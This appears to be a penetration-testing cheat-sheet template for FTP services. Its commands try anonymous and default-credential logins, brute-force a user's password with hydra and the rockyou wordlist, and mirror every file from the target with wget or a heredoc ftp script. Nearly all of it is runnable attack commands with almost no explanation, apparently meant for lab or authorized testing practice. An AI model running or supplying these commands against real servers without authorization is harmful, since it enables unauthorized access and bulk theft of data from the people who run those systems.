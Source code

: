 # FTP
## Anonymous login
```bash
ftp ftp://anonymous:anonymous@<% tp.frontmatter.target_ip %>
```

## user/password guesses
```bash
ftp ftp://admin:password@<% tp.frontmatter.target_ip %>
```

```bash
ftp ftp://admin:password@<% tp.frontmatter.target_ip %>
```

**If you have a username, try there username as the password**

## Brute force user
**If you have a username**
```bash
hydra -l <user> -P /usr/share/wordlists/rockyou.txt ftp://<% tp.frontmatter.target_ip %>
```

## Download EVERYTHING

```bash
wget -m --user=username --password=password ftp://<% tp.frontmatter.target_ip %>
```

**Script of you don't want to use wget**
```bash
#! /bin/bash

ftp -n << 'EOF'
open <% tp.frontmatter.target_ip %>
quote USER your_username_here
quote PASS your_password_here
prompt no
mget * .
bye
EOF
```
